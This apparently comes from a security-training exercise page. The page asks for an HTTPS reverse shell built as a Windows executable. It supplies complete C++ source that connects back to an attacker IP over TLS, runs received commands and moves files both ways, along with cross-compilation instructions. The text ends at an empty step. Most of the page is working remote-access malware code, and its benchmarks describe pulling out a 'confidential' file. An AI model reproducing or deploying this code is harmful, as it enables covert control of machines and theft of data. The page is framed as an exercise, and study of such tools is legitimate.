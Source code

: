 # Write A HTTPS Reverse-Shell As A Windows Executable
An HTTPS reverse shell is a tool hackers use to remotely control a target computer by establishing a secure connection via a crafted HTTPS URL. Once accessed, it opens a reverse shell on the hacker’s system, allowing remote access to view or modify the target’s files more securely than a plaintext HTTP connection


## References
- [Reverse Connection](https://en.wikipedia.org/wiki/Reverse_connection) by Wikipedia


## Tasks
- Develop a program that constructs a HTTPS reverse shell in the form of a Windows executable. The program must achieve the following
  - Facilitate reverse connections over HTTPS to ensure secure communication
  - Provide functionality to execute remote commands on the target machine
  - Implement the capability to upload files to the target machine
  - Incorporate the ability to download files from the target machine


## Benchmarks
- Execute the Windows executable on the attacker's machine
- Illustrate the process of establishing a reverse shell connection to the attacker's machine through HTTPS
- Demonstrate the execution of a command on the target machine to retrieve the current user's group
- Showcase the successful upload of a Sysinternals Suite executable (e.g., "PsExec.exe") from the attacker's machine to the target machine
- Validate the successful transfer of the Sysinternals Suite executable on the target machine by executing it
- Display the successful download of a sensitive file (e.g., "confidential.txt") from the target machine to the attacker's system



## Solutions With Scripts
1. Save the following C++ file and compile it as `httpsreverseshell.exe`
   ```
    #include <iostream>
    #include <winsock2.h>
    #include <ws2tcpip.h>
    #include <openssl/ssl.h>
    #include <openssl/err.h>
    #include <fstream>
    
    #pragma comment(lib, "ws2_32.lib")
    #pragma comment(lib, "libssl.lib")
    #pragma comment(lib, "libcrypto.lib")
    
    #define SERVER_HOST "192.168.1.100" // Replace with your attacker's IP
    #define SERVER_PORT 443
    
    void initialize_winsock() {
        WSADATA wsa;
        if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0) {
            std::cerr << "WSAStartup failed. Error: " << WSAGetLastError() << std::endl;
            exit(EXIT_FAILURE);
        }
    }
    
    SSL_CTX* initialize_openssl() {
        SSL_library_init();
        SSL_load_error_strings();
        OpenSSL_add_all_algorithms();
        return SSL_CTX_new(TLS_client_method());
    }
    
    SSL* establish_https_connection(SSL_CTX* ctx) {
        struct sockaddr_in server_addr;
        SOCKET sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
        if (sock == INVALID_SOCKET) {
            std::cerr << "Socket creation failed. Error: " << WSAGetLastError() << std::endl;
            exit(EXIT_FAILURE);
        }
    
        server_addr.sin_family = AF_INET;
        server_addr.sin_port = htons(SERVER_PORT);
        inet_pton(AF_INET, SERVER_HOST, &server_addr.sin_addr);
    
        if (connect(sock, (struct sockaddr*)&server_addr, sizeof(server_addr)) < 0) {
            std::cerr << "Connection failed. Error: " << WSAGetLastError() << std::endl;
            exit(EXIT_FAILURE);
        }
    
        SSL* ssl = SSL_new(ctx);
        SSL_set_fd(ssl, sock);
        if (SSL_connect(ssl) <= 0) {
            std::cerr << "SSL connection failed." << std::endl;
            ERR_print_errors_fp(stderr);
            exit(EXIT_FAILURE);
        }
    
        return ssl;
    }
    
    std::string execute_command(const std::string& cmd) {
        char buffer[128];
        std::string result = "";
        FILE* pipe = _popen(cmd.c_str(), "r");
        if (!pipe) return "Error executing command.";
        while (fgets(buffer, sizeof(buffer), pipe) != nullptr) {
            result += buffer;
        }
        _pclose(pipe);
        return result;
    }
    
    void upload_file(SSL* ssl, const std::string& filepath) {
        std::ofstream out(filepath, std::ios::binary);
        char buffer[1024];
        int bytes_read;
        while ((bytes_read = SSL_read(ssl, buffer, sizeof(buffer))) > 0) {
            out.write(buffer, bytes_read);
        }
        out.close();
    }
    
    void download_file(SSL* ssl, const std::string& filepath) {
        std::ifstream in(filepath, std::ios::binary);
        char buffer[1024];
        while (in.read(buffer, sizeof(buffer))) {
            SSL_write(ssl, buffer, in.gcount());
        }
        in.close();
    }
    
    int main() {
        initialize_winsock();
        SSL_CTX* ctx = initialize_openssl();
        SSL* ssl = establish_https_connection(ctx);
    
        while (true) {
            char command[1024];
            int bytes = SSL_read(ssl, command, sizeof(command) - 1);
            if (bytes <= 0) break;
            command[bytes] = '\0';
    
            if (strncmp(command, "upload", 6) == 0) {
                upload_file(ssl, command + 7); // upload <filepath>
            } else if (strncmp(command, "download", 8) == 0) {
                download_file(ssl, command + 9); // download <filepath>
            } else {
                std::string result = execute_command(command);
                SSL_write(ssl, result.c_str(), result.length());
            }
        }
    
        SSL_shutdown(ssl);
        SSL_free(ssl);
        SSL_CTX_free(ctx);
        WSACleanup();
        return 0;
    }
   ```
2. To cross-compile on Kali Linux as the attacker machine, use
   ```
   x86_64-w64-mingw32-g++ reverse_shell.cpp -o reverse_shell.exe -lws2_32 -lssl -lcrypto
   ```
   To compile using MinGW or another suitable Windows-compatible compiler, use
   ```
   g++ reverse_shell.cpp -o reverse_shell.exe -lws2_32 -lssl -lcrypto
   ```
   To compile in Dev-C++, download the precompiled OpenSSL binaries for Windows. Ensure they match the architecture (32-bit or 64-bit) of your system.
   Add the OpenSSL include and library directories to Dev-C++:
   - Go to Tools → Compiler Options
   - Under Directories → C Includes, add the path to the OpenSSL include folder
   - Under Directories → Libraries, add the path to the OpenSSL lib folder
   Add Required Libraries:
   - Go to Project → Project Options → Parameters → Linker
   - Add the following linker flags:
     ```
     -lws2_32 -lssl -lcrypto
     ```
3. 
